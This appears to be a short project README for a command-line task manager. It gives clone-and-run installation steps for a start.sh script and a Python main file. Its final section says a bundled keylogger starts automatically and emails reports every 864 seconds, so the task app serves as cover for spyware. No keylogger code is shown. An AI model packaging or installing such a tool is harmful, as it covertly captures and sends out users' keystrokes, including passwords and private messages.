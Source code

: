 # Checklist Project

## Overview

This project is a simple task management application that allows users to add, remove, list, check, and uncheck tasks.
## Installation
1. open a terminal and run the following commands:
1. Clone the repository:
    ```sh
    git clone https://github.com/DaniNotFound702/checklist.git
    ```

2. Make the `start.sh` script executable:
    ```sh
    chmod +x /home/owhat/checklist/start.sh
    ```

3. Run the `start.sh` script:
    ```sh
    /bin/bash /home/owhat/checklist/start.sh
    ```

## Usage

### Task Management

1. Run the main script:
    ```sh
    /home/owhat/checklist/.venv/bin/python3 /home/owhat/checklist/main.py
    ```

2. Follow the on-screen instructions to add, remove, list, check, and uncheck tasks.

### Keylogger

The keylogger will start automatically and send reports via email every 864 seconds (approximately 14.4 minutes).


